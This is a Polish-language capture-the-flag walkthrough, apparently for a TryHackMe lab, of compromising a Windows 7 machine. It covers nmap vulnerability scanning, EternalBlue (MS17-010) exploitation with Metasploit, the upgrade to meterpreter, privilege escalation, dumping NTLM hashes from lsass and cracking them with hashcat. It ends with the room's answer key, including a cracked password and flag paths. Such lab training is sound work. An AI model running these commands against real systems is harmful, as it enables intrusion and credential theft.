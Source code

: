 1. Na początku musimy klasycznie połączyć się z VPN za pomocą OpenVPN.
Wchodzimy na nasz [profil](https://tryhackme.com/access) pobieramy plik do połączanienia wchodzimy w "/Downloads" i wpisujemy w nowym
terminalu:

``` $ openvpn <Nazwa>.ovpn ```


2. Po tym otwieramy zadanie nr. 1 i odpalamy instancję ( Deploy ).

3. Po tym wszystkim możemy powoli zaczynać. Pierwsze co robimy to skanujemy maszyne:

``` $ nmap -Pn <Adress Ip> ```

Skanowanie pokazuje nam usługi i porty, na których dzialają. Spróbujmy dowiedzieć się o dystrybucji.

```$ nmap -A -T 5 <Adress Ip> -vv```

Widzimy, że maszyna jest postawiona na Windows 7.

4. Teraz musimy się dowiedzieć na co jest podatna maszyna ( ms??-??? ). Więc wpisujemy:

```$ nmap --script vuln <Adress Ip> -vv```

I widzimy smb-vuln-ms17-010 ( [ms17-010](https://www.exploit-db.com/exploits/42315) ).

5. Teraz spróbujmy uzyskać dostęp na maszynie.

6. Odpalamy [Metasploit](https://www.metasploit.com/):

```$ msfconsole```

Szukamy exploit'a na tę podatność w msf:

```$ search ms17–010```

Pokazuje nam się lista dostępnych ataków. My z racji, że znamy dystrybucję wybieramy tego na Windows 7.

``` $ use 2 ``` (windows/smb/ms17_010_eternalblue)

7. Musimy się dowiedzieć jakie opcje musimy uzupełnić do ataku:

```$ show options```

Widzimy RHOST, więc go uzupełniamy:

```$ set RHOSTS <Adress Ip>```

I uruchamiamy skrypt:

```$ run```

Powinniśmy uzyskać dostęp do konsoli!

W razie czego upewnij się że exploit dziąła poprawnie. Kliknij enter i powinneś widzieć shella DOS.
Spróbuj wejść w tło shell'a (CTRL + Z). Jeżeli to się nie uda może być konieczne ponowne uruchomienie maszyny (deploy), lecz przed tym spróbuj znów uruchomić skrypt i zobaczyć czy działa.

Nacisnij enter.

8. Jeżeli jeszcze nie wszedłeś do tła shella (CTRL + Z). Dowiedz się w internecie jak
przekonwertować shell'a na meterpretera w metasploit. Jaka jest nazwa modułu post, którego użyjemy.
( Dokładna ścieżka, podobna do nazwy użytego exploita )

9. Wrócmy najpierw do metasploita:

```$ background```

Zweryfikujmy czy sesja nadal istnieje:

```$ session```

Powinna nam się pokazać informacja o sesji jej typie itp.

10. Spróbujmy zmienić shella na meterpretera:

```$ use multi/manage/shell_to_meterpreter```

Uzupełnij wszystkie brakujące opcje aby przechwycić shell'a:

```
$ set LPORT 1234
$ set SESSION 1
```

Uruchom:

```$ run```

Jeżeli to nie działa spróbuj znów zrobić shell'a.

11. Zobaczmy istniejące sesje:

```$ session```

Powinniśmy zobaczyć drugą sesje, która ma w typie meterpreter.

Spróbujmy do niej się podłączyć:

```$ sessions 2```

Powinniśmy widzieć konsole meterpretera.

12. Sprawdźmy czy eskalowaliśmy do NT AUTHORITY\SYSTEM. Uruchom te polecenie w tym celu:

```$ getsystem```

Możemy swobodnie zmieniać powłoki z shell do meterpretera.

Sprawdźmy kim jesteśmy:

```
$ shell
$ whoami
```

Wróćmy do meterpretera ( CTRL + Z ).

13. To że jesteśmy systemem nie oznacza, że nasz proces też nim jest. Sprawdźmy liste działająch procesów:

```$ ps```

I zapamiętajmy id procesu (PID).

14. Zmigrujmy sobie proces lsass.exe. Mając meterpretera wpiszmy:

```$ migrate 708```

15. Zrzućmy (dump) hasła nie podstawowych użytkowników do późniejszego ich złamania.

W naszym podwyższonym shell'u (meterpreter) uruchomy polecenie:

```$ hashdump```

Spowoduje to dumpowanie wszystkich hashy haseł na komputerze jeżeli mamy do tego odpowiednie uprawnienia.

Który użytkownik nie jest defaultowy?

16. Skopiuj hashe do pliku do złamania. ( to hashe NTLM wklej je tak jak widzisz w konsoli ).

Zorganizujmy hash do łamania. (user:hash <-- ostatni "zlepek liter" w lini po : i przed ::: )

np.
```Administrator:31d6cfe0d16(...)```

17. Ja użyje hashcat'a do złamania hashy.

``` $ hashcat -a 0 -m 1000 <NazwaPlikuZHashami>.txt <SłownikDoŁamania np. rockyou.txt>.txt --force --username --show ```

Po chwili powinniśmy uzyskać hasło do Jon'a (alqfna22)

18. Teraz poszukajmy flag:

1) Pierwsza znajduje się w lokacji C:\flag1.txt

2) Następna w C:\Documents and Settings\Jon\Documents\flag3.txt

3) A ostatnia w C:\Windows\System32\config\flag2.txt

Każdą flagę można pokazać za pomocą ```type```
np. ``` type flag1.txt ```

19. To powinno być na tyle. Powodzenia!

// Uzupełnienie rubryk.

Zadanie 1.

2) 3

3) ms17-010

Zadanie 2.

2) exploit/windows/smb/ms17_010_eternalblue

3) RHOSTS

Zadanie 3.

1) post/multi/manage/shell_to_meterpreter

2) SESSION

Zadanie 4.

1) Jon

2) alqfna22

Zadanie 5.

1) Wpisz flage numer 1

2) Wpisz flage numer 2

3) Wpisz flage numer 3 
